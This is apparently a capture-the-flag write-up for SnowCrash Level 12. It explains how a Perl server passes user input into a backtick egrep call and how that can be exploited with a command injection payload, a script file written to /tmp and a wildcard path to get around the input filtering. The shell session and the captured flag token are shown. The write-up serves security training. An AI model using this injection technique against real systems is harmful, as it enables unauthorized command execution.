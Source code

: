 #Level 12


This `perl` script is a server in port `4646`. 
There are two parameters, 1 of which `x` has been modified and used.  

Each char of this parameter is uppercased using [binding operator](https://perldoc.perl.org/perlop#Binding-Operators). The parameter is also split when a space in find.  
For example: `x="hello world"`
After the changement, x will be: `HELLO`

```perl
$xx =~ tr/a-z/A-Z/; 
$xx =~ s/\s.*//;
```

We have this line in which a grep is execute to get line in `/tmp/xd`. If the line match with `x` it's return in `output`.  

```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

So we can try to close the backtip to execute our command/script.  
So the payload will be:  

```bash
curl 127.0.0.1:4646?x='`OURSCRIPT`'
```
We must close the backtip and open-it after our command/script.  

Because space and lower char are modified we must write a script file with our script.
Using of `wildcard` is required because of the directory in which we can write is `tmp`, a name with only lower case.  

```bash
level12@SnowCrash:~$ echo "/bin/getflag | wall" > /tmp/SCRIPT
level12@SnowCrash:~$ chmod a+x /tmp/SCRIPT
level12@SnowCrash:~$ curl 127.0.0.1:4646?x='`/*/SCRIPT`'
                                                                               
Broadcast Message from flag12@Snow                                             
        (somewhere) at 7:27 ...                                                
                                                                               
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
